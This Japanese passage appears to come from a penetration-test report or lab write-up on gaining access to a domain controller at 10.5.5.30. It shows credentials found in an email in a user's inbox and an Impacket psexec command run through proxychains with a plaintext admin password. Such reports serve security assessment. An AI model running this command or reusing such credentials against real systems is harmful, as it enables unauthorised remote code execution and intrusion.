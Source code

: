 JohnはユーザーのデスクトップにThunderbirdのプログラムがあることに気づき、Alexの受信トレイを確認したところ、ローカル管理者Rogerからのメールを発見したのです。
![9b55d8a6ef2efa63a40eed83acb45ef3.png](../_resources/9b55d8a6ef2efa63a40eed83acb45ef3.png)
**5.3 dc - 10.5.5.30**   
**5.3.1 初期アクセス - リモートコマンドの実行**   
攻撃を再現するための手順Johnは、管理者がAlexのために残した仮のパスワードを再利用することができました。
proxychains python3 /usr/share/doc/python3-impacket/examples/psexec.py admin:UWyBGeTp3Bhw7f@10.5.5.30   
![66a02125f6ce43b30487791034a177a8.png](../_resources/66a02125f6ce43b30487791034a177a8.png)

